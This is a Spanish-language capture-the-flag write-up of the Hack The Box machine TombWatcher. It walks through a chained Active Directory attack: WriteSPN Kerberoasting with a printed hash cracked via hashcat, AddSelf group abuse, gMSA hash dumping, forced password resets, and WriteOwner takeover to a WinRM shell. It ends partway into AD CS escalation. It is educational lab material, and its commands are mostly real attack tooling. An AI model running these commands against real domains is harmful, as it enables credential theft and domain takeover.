___
Tags: #medium #htb #fullpermisos
___
# TombWatcher

## Información General

**- Dificultad:** Medium <br>
**- Sistema operativo:** Windows <br>
**- Fecha de resolución:** 21/08/2026 <br>
**- Enlace:** [https://app.hackthebox.com/machines/TombWatcher](TombWatcher) <br>

## Usuarios identificados

| **Usuario Identificado** | **Método de Compromiso / Escalada**                                                                                            |
| ------------------------ | ------------------------------------------------------------------------------------------------------------------------------ |
| **Henry**                | Credenciales iniciales proporcionadas (Acceso base).                                                                           |
| **Alfred**               | Kerberoasting tras explotar el permiso `WriteSPN` de Henry.                                                                    |
| **ansible_dev$**         | Recuperación de credenciales gMSA usando permisos del grupo `infrastructure` (vía `AddSelf` de Alfred).                        |
| **Sam**                  | Cambio forzado de contraseña mediante el permiso `ForceChangePassword` de `ansible_dev$`.                                      |
| **John**                 | Asignación de control (`GenericAll`) y cambio de propietario mediante privilegios de Sam (`WriteOwner`).                       |
| **cert_admin**           | Restauración de cuenta eliminada utilizando el permiso `GenericAll` de John sobre la OU ADCS.                                  |
| **Administrator**        | Explotación de vulnerabilidades ADCS (`ESC15`/`ESC17`) con `cert_admin` para obtener un certificado y autenticarse como Admin. |
## Listado de Vulnerabilidades Identificadas

- **WriteSPN (Kerberoasting)**
    
    - **Explicación**: Permite a un usuario autenticado (en este caso, Henry) registrar o modificar el atributo `servicePrincipalName` de otra cuenta de usuario (Alfred). Esto habilita la solicitud de un ticket de servicio (TGS) cifrado con la contraseña de dicha cuenta, exponiéndola a ataques de fuerza bruta offline.
        
    - **Impacto**: Permite comprometer la contraseña en texto plano de cuentas de usuario del dominio, facilitando el acceso inicial a nuevas credenciales válidas.
        
- **AddSelf**
    
    - **Explicación**: Regla de control de acceso (ACL) configurada en Active Directory que autoriza a un usuario (Alfred) a añadirse a sí mismo como miembro de un grupo privilegiado específico (`infrastructure`) sin pertenecer a él originalmente.
        
    - **Impacto**: Otorga la capacidad de escalar privilegios a nivel de grupo, permitiendo acceder a recursos o información restringida a los miembros de dicha agrupación.
        
- **ForceChangePassword**
    
    - **Explicación**: Privilegio que posee una cuenta o servicio (`ansible_dev$`) para restablecer o cambiar forzosamente la contraseña de otro usuario (Sam) sin necesidad de conocer la contraseña actual de la víctima.
        
    - **Impacto**: Conduce a la apropiación total e inmediata de la cuenta afectada, permitiendo suplantar su identidad y heredar sus permisos en el dominio.
        
- **WriteOwner y Control Total (GenericAll)**
    
    - **Explicación**: El permiso `WriteOwner` permite cambiar el propietario de un objeto de Active Directory (como el usuario John), facilitando la asignación posterior de control total (`GenericAll`) sobre el mismo.
        
    - **Impacto**: Otorga control absoluto sobre objetos ajenos, permitiendo modificar atributos críticos, cambiar contraseñas a voluntad y comprometer cuentas de usuario o unidades organizativas (OU).
        
- **Abuso de Objetos Eliminados (Papelera de reciclaje de AD)**
    
    - **Explicación**: Existencia de cuentas críticas desactivadas o eliminadas (como `cert_admin`) que conservan permisos o relaciones activas en plantillas de certificados, las cuales pueden ser restauradas y manipuladas si se cuenta con los privilegios adecuados sobre la OU.
        
    - **Impacto**: Permite revivir identidades con privilegios elevados o específicos para utilizarlas como vectores de escalada de acceso.
        
- **Vulnerabilidades en AD CS (ESC15 y ESC17)**
    
    - **Explicación**: Fallos derivados de una configuración insegura en las plantillas de certificados (como `WebServer`), donde la opción _Enrollee Supplies Subject_ está habilitada (permitiendo inyectar nombres alternativos de sujeto - SAN) combinada con versiones de esquema vulnerables y permisos de inscripción abiertos.
        
	* **Impacto**: Crítico y total sobre el dominio. Permite a un atacante con permisos de inscripción solicitar certificados digitales válidos a nombre de cualquier usuario del dominio, incluidos los Administradores, logrando un _Domain Takeover_ completo mediante PKINIT.

## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.129.52.68**

### Información de la máquina

Como es común en los pentests de Windows de la vida real, iniciará el cuadro TombWatcher con las credenciales para la siguiente cuenta: **henry** / **H3nry_987TGV!**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 10.129.52.68
```

<p align="center">

</p>

**Su ttl es 128. Por tanto es Window**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -Pn 10.129.52.68
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-18 23:50:54Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2026-08-18T23:52:25+00:00; +4h00m12s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2026-08-18T23:52:25+00:00; +4h00m12s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-18T23:52:25+00:00; +4h00m12s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-18T23:52:25+00:00; +4h00m12s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49694/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
57775/tcp open  msrpc         Microsoft Windows RPC
```

| Open port | Service      | Version                                 |
| --------- | ------------ | --------------------------------------- |
| 53        | domain       | Simple DNS Plus                         |
| 80        | http         | Microsoft IIS httpd 10.0                |
| 88        | kerberos-sec | Microsoft Windows Kerberos              |
| 135       | msrpc        | Microsoft Windows RPC                   |
| 139       | netbios-ssn  | Microsoft Windows netbios-ssn           |
| 389       | ldap         | Microsoft Windows Active Directory LDAP |
| 593       | ncacn_http   | Microsoft Windows RPC over HTTP 1.0     |
| 636       | ssl/ldap     | Microsoft Windows Active Directory LDAP |
| 3268      | ldap         | Microsoft Windows Active Directory LDAP |
| 3269      | ssl/ldap     | Microsoft Windows Active Directory LDAP |

### Credenciales iniciales

El siguiente comando **extrae los nombres de dominio/host de la IP vía SMB y los agrega automáticamente a tu archivo `/etc/hosts`** para que puedas navegar o atacar usando sus nombres de dominio.

```
sudo netexec smb 10.129.52.68 --generate-hosts-file /etc/hosts
```

> 10.129.52.68     DC01.tombwatcher.htb tombwatcher.htb DC01

El usuario **guest** está deshabilitado 

```
netexec smb tombwatcher.htb -u guest -p ''
```

<p align="center">

</p>

A continuación, vamos a probar las credenciales aportada por HTB **henry**:**H3nry_987TGV!**
Tanto en **smb** como **ldap** el usuario **henry** esta habilitado. Que este habilitado en **smb** significa que puede enumerar usuarios y grupos existen.

```
netexec smb tombwatcher.htb -u henry -p 'H3nry_987TGV!'

netexec ldap tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```

<p align="center">

</p>

Tras este comando me doy cuenta que además del usuario **henry** también existen el usuario **Alfred**, **sam** y **john**

```
netexec ldap tombwatcher.htb -u henry -p 'H3nry_987TGV!' --users
```

<p align="center">

</p>

Lo único que este usuario no puede iniciar winrm :(

```
netexec winrm tombwatcher.htb -u henry -p 'H3nry_987TGV!'
```

<p align="center">

</p>

### SMB - TCP 445

No hay archivos interesantes aquí.

```
netexec smb tombwatcher.htb -u henry -p 'H3nry_987TGV!' --shares
```

<p align="center">

</p>

### Website - TCP 80

La página web es simplemente la página predeterminada de IIS y no hay nada interesante por aquí tampoco.

## Explotación

### Obtener la autentificación del usuario Alfred

#### BloodHound

```
bloodhound-python -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' -gc 'tombwatcher.htb' -dc 'DC01.tombwatcher.htb' -ns 10.129.52.68 -c all --zip
```

Una vez instalado **bloohound** dentro observo que el usuario **henry** tiene permiso de **WriteSPN** hacia el usuario **Alfred**. El impacto directo en la seguridad al tener habilitado el permiso **WriteSPN** es que habilita a cualquier usuario autenticado del dominio a solicitar un ticket de servicio (TGS) firmado con la clave cifrada de la cuenta objetivo, lo que expone su contraseña a ataques de fuerza bruta fuera de línea (_Kerberoasting_) si esta no es lo suficientemente compleja. 

<p align="center">

</p>

#### Explotación del permiso **WriteSPN**

[BloodyAD](https://github.com/ShutdownRepo/targetedKerberoast) es una herramienta en Python diseñada para interactuar con entornos de **Active Directory (AD)** a través de protocolos como LDAP y SMB. 

Su función principal es inspeccionar, agregar, modificar o eliminar objetos y permisos (ACLs) dentro del directorio activo de forma modular y rápida.

```
git clone https://github.com/CravateRouge/bloodyAD.git
```

Preparo el entorno virtual e instalo **BloodyAD**

```
python3 -m venv venv

source venv/bin/activate

pip install .
```

la cuenta `henry` le pide al Controlador de Dominio (`DC01.tombwatcher.htb`) que le asigne el identificador de servicio `http/whatever` al atributo `servicePrincipalName` de la cuenta `henry`.

Esto funciona **únicamente si la cuenta `henry` tiene permiso** `writeSPN` sobre la cuenta `alfred` dentro de las listas de control de acceso (ACLs) de Active Directory.

```
bloodyAD -d tombwatcher.htb -k --host DC01.tombwatcher.htb -u henry -p H3nry_987TGV! set object alfred servicePrincipalName -v 'http/whatever'
```

> [+] alfred's servicePrincipalName has been updated

A continuación, nos saldrá un error por el tema de la hora de la máquina objetivo, que no está bien sincronizado con la mv, ejecutamos este comando `sudo ntpdate 10.129.52.68` y rápidamente ejecutamos uno de los dos comandos. Nos dará el hash que necesitamos. 

```
netexec ldap DC01.tombwatcher.htb -u henry -p 'H3nry_987TGV!' -k --kerberoasting alfred.hashLDAP
```

<p align="center">

</p>

```
./targetedKerberoast.py -d tombwatcher.htb -u henry -p 'H3nry_987TGV!' -f hashcat --dc-host dc01.tombwatcher.htb
```

<p align="center">

</p>

```
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$1993c0f0cd499590ef8f19f47d166011$60dcd8f3a08c6e7a7aeecc9aeefcef07176a0744d5d284a09e31c8b7fdd98e66bd77fad45e971d09cd155148114e42f37f36f4e1b10493e42c65a7640322a05d79818acc0cf3fbb90bbe8bced7822a64beeecc91e474ed380482e2f43b66ef19eef32fe128f00cbb2541a10ea29819dad40b2e28829bef88a0a7fa99a7b465e48ca7344e1514e1da33a2bb8acc6e8ca2975bbb271c29386dd03ce7cc2a25dc088246bf5f974217d6a01aed0875cc5e222da02dfd642d3a5cea5d00405e7c45c3c328f5017c9198d9865d96ed3c526e6a1ef3299b6e91ba04833066ef9bcea6db6c2b18b22bf938edcc905972229173f13c26133c30b3b14e01e4e94e38a9a051fd6e2e99ec856d86291e43f1dd6d7e9ece7ccd9dadb60f49890edee0969bcd333c85cea6b84f79008adf2ded4733f06bd1904be2f8177a58eca621aca9e93c1ba9f411f8aff9efd97f7b0e9502e033115456c706197861acab676e96191d02bc84eb4c5757e939d6c35ec8b260a116edb649c463d8e060d703440ef4bc2cf6c70e2828455466c6d847d92e42a47fe629f6980e970da058738dfb86c0fd710e101a76d27be10e83de407840a59f61a8d163d41e8ce9d0b9d3bf8965296089a296ebc3c8f7df32f1ac577a9c0978113c52e2a9e7cf0978858cbbca04ca25744297f6e1555af6fc63c15a62d01584d4d212d644eafe5afc8c03ca82d1312133b4fe1d1b769e5953c2f52571620219233a26d379f0492776172bbeceaecc914edf3a6eec5017cd47125cbf4ec2e859ce69efb033779bdf6a79f0216af2f9ba5fe5b848f9c8da81765fed0dfac6ff74e89cae342ae4fff19f47716c52067b64946bc8c58c9bf12036650ae8533672afe423a0bce0d37f2d05372522d8a4f0f0da7b7d0cc9487285a5b8c0e5d61934c19346c59516bd9a89b768ca95ee752fbb18415e35d6d08986d3f09a78c9f27a6f8e34454062a9b43b21721ce1d30800b2f6228c9b035198a34455236c8ada0421e9a59e55ad42c292bb66052df1e6ce04184257415ab861132e4f321ae4e8b104d24fbdd54226f88a391a8484f735970fa53cdf46244a8db741edbc5460736754575bb819b3e0647f879c7bfbfee92476ca726fcd894f82bc0cf4717ceac7dd10c129977f175e341b489c6b6a19ec0647ce4b39d41929ed19bfbaf5ce2cadf078a9f86460eea119bcbee82e7ee0f5fac4d50c533a2f29dfb062160d008c671cca2c0bac23bf81432db61050c2872db733df0717ac2b0986ec1b18a4e506e38487dd2c4230d84714a92271253647cc0a973b91905a65a28f88112d3126c88ac01ddb41c8d087849c4958e7ea8d643f41a58a16e3514f6c3bf3687d267362d3cbb74a96eacea55312231caf9baf4379c722e0ac83345d1c7197ebe83c2c3aad0a292024ec81b2b64a447fc2afc40074189756333ea7ef1f4ee0fd55c0b546e385f5f49a421ea4186282
```

Lo guardo como **hashalfred**. Luego crakeamos la pass con hashcat.

```
hashcat hashalfred /usr/share/wordlists/rockyou.txt
```

> basketball

#### Verificación de cred

Usando la herramienta **netexec** validamos las credenciales del usuario **alfred**

```
netexec smb tombwatcher.htb -u alfred -p 'basketball'
```

<p align="center">

</p>

### Obtener usuario como ANSIBLE_DEV

#### Enumeración

Usaremos nuevamente **bloodhound** para saber como nos podemos beneficiar del usuario **alfred**

El permiso **`AddSelf`** significa que el usuario **`alfred`** tiene una regla de control de acceso (ACL) configurada en Active Directory que le autoriza a **añadirse a sí mismo** como miembro del grupo **`infrastructure`**, a pesar de no formar parte de él inicialmente.

<p align="center">

</p>

#### Explotación del permiso AddSelf

Nuevamente, preparo el entorno virtual e inicio **BloodyAD**

```
python3 -m venv venv

source venv/bin/activate
```

El comando utiliza la herramienta **bloodyAD** autenticándose con las credenciales de **alfred** frente al controlador de dominio para explotar su permiso `AddSelf`, ejecutando la acción de **añadir al propio usuario al grupo `infrastructure`**.

```
bloodyAD -H dc01.tombwatcher.htb -d tombwatcher.htb -u alfred -p 'basketball' add groupMember infrastructure alfred
```

> [+] alfred added to infrastructure

El comando utiliza **NetExec** para autenticarse en el servicio LDAP del controlador de dominio con las credenciales del usuario **alfred** y recuperar las contraseñas de la cuenta gMSA **ansible_dev$**

```
netexec ldap dc01.tombwatcher.htb -u alfred -p 'basketball' --gmsa
```

<p align="center">

</p>

#### Verificación de credenciales

Las credenciales del usuario **ansible_dev$** es válido para smb

```
netexec smb dc01.tombwatcher.htb -u ansible_dev$ -H 'cb3161cb2c9d84b58ba3014f55040d75'
```

<p align="center">

</p>

### Obtener la autentificación del usuario Sam

#### Enumeración

El permiso **`ForceChangePassword`** indica que la cuenta de servicio **`ansible_dev$`** tiene privilegios para **restablecer o cambiar la contraseña** del usuario **`sam`** sin necesidad de conocer su contraseña actual, permitiendo así hacerse con el control de esa cuenta.

<p align="center">

</p>

#### Explotación del permiso ForceChangePassword

Nuevamente, preparo el entorno virtual e inicio **BloodyAD**

```
python3 -m venv venv

source venv/bin/activate
```

El comando utiliza la herramienta **bloodyAD** para conectarse al controlador de dominio (`dc01.tombwatcher.htb`) del dominio `tombwatcher.htb`, autenticándose mediante la técnica _Pass-the-Hash_ con la cuenta de servicio `ANSIBLE_DEV$` y su hash NT, para así aprovechar su permiso `ForceChangePassword` y **cambiar la contraseña del usuario `sam`** por `pass123`.

```
bloodyAD -d tombwatcher.htb -u 'ANSIBLE_DEV$' -p ':cb3161cb2c9d84b58ba3014f55040d75' --host dc01.tombwatcher.htb set password "sam" "pass123"
```

> [+] Password changed successfully!

#### Verificación del usuario sam

Luego uso la herramienta netexec para verificar si lo he hecho correctamente:

```
netexec smb dc01.tombwatcher.htb -u sam -p 'pass123'
```

<p align="center">

</p>

### Shell como John

#### Enumeración

El permiso **`WriteOwner`** indica que el usuario **`sam`** tiene privilegios para **cambiar el propietario** del objeto correspondiente al usuario **`john`**, lo que le permitiría convertirse en dueño de ese objeto y, a partir de ahí, asignarse control total sobre él.

<p align="center">

</p>

#### Explotación del permiso WriteOwner

Comenzaré estableciendo que el propietario de John es Sam, con el código `bloodyAD` :

```
bloodyAD -d tombwatcher.htb -u 'sam' -p 'pass123' -H dc01.tombwatcher.htb set owner john sam
```

> Old owner S-1-5-21-1392491010-1358638721-2126982587-512 is now replaced by sam on john

Ahora, pasaré a Sam `GenericAll` de John.

```
bloodyAD -d tombwatcher.htb -u 'sam' -p 'pass123' --host dc01.tombwatcher.htb add genericAll john sam
```

> [+] sam has now GenericAll on john

Este comando utiliza la herramienta **bloodyAD** para autenticarse como el usuario `sam` en el Controlador de Dominio `dc01.tombwatcher.htb` y **cambiar forzosamente la contraseña del usuario `john`** por `john123`.

```
bloodyAD --host 'dc01.tombwatcher.htb' -d 'tombwatcher.htb' -u 'sam' -p 'pass123' set password john 'john123'
```

#### Validando credencial john

La credencial de **john** son validas tanto para **smb** como **winrm**

```
netexec smb dc01.tombwatcher.htb -u john -p 'john123'
```

<p align="center">

</p>

#### Shell 

```
evil-winrm-py -i dc01.tombwatcher.htb -u john -p 'john123'
```

<p align="center">

</p>

## Escalada de Privilegios

### Autorización como cert_admin

#### Enumeración

Lo primero que hago es usar BloodHound para informarme que relación tiene el usuario `John`.

<p align="center">

</p>

Esta relación significa que el usuario **`john`** tiene el permiso **`GenericAll`** sobre la unidad organizativa (OU) **`ADCS`**.

- **OU `ADCS`**: Las unidades organizativas que llevan este nombre suelen albergar servidores o configuraciones relacionadas con los **Servicios de Certificado de Active Directory (AD CS)**.
    
- **El permiso**: Al tener control total sobre la OU, `john` puede modificar los objetos que hay dentro, cambiar sus políticas, restablecer contraseñas de equipos/servidores en esa OU, o incluso manipular las plantillas de certificados si están almacenadas o gestionadas ahí.

El impacto es crítico porque AD CS es, a menudo, el camino más rápido hacia la **escalada de privilegios a Domain Admin**.

En esta ocasión usaremos una nueva herramienta llamada **RustHound-CE**  es una versión más cheta que **bloodhound-python**  su función es recopilar los servicios de certificados (AD CS)

```
cargo install rusthound-ce

/home/dani/.cargo/bin/rusthound-ce -d tombwatcher.htb -u john@tombwatcher.htb -p john123 -i 10.129.232.167 -z
```

Una vez conseguido el **.zip** lo importamos en **bloodHound**. En **bloodHound** nos situamos en **Cypher** - **Saves Queries** - **Active Directory Certificate Services** - **Enrollment rights on published certificate templates** Nos centraremos en el siguiente esquema.

<p align="center">

</p>

Nos centramos en el usuario `CERT_ADMIN` porque, según el grafo de relaciones de AD CS, posee permisos directos de inscripción (**`Enroll`**) sobre la plantilla de certificados **`WEBSERVER`**. Esto lo convierte en un vector de ataque viable para solicitar certificados de forma legítima, los cuales pueden ser utilizados posteriormente para escalar privilegios dentro del dominio.
 
**Enroll** significa que un usuario tiene **permisos para solicitar y obtener un certificado digital** basado en una plantilla específica.

En seguridad ofensiva, que una cuenta tenga permisos de _Enroll_ sobre una plantilla vulnerable (como las que permiten la autenticación de cliente o el suministro de un nombre alternativo de sujeto - _SAN_) es crítico, porque le da al atacante la capacidad de generar un certificado válido y usarlo para autenticarse como cualquier otro usuario del dominio, incluidos los Administradores de Dominio.

El siguiente comando busca en Active Directory (incluso dentro de los objetos eliminados) el usuario exacto asociado a ese SID específico para mostrar su nombre y ruta.

```
Get-ADObject -Filter "objectSid -eq 'S-1-5-21-1392491010-1358638721-2126982587-1111'" -IncludeDeletedObjects -Properties sAMAccountName, distin
guishedName
```

